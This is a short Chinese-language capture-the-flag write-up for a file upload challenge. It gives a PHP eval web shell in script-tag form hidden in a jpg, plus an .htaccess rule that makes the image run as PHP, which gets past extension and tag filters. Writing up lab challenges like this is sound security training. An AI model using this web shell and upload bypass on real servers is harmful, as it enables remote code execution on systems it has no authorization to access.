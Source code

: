 ![](./images/image-51.png)

### Upload again!

一个文件上传页面，源码里没有东西可以看

经过测试，php以及可以替换的后缀全部被过滤掉

而且对文件内容有所检查，好像<?php 、<?这样的组合都被ban了

但是好在可以使用另一种script方式的php代码

```
<script language="php">eval($_POST[a]);</script>
#这句话插在一张jpg图片的末尾
```

然后可以上传.htaccess文件修改系统配置

htaccess文件内容如下

```
<FilesMatch "ma.jpg">
SetHandler application/x-httpd-php 
</FilesMatch>
```

然后访问/upload/ma.jpg
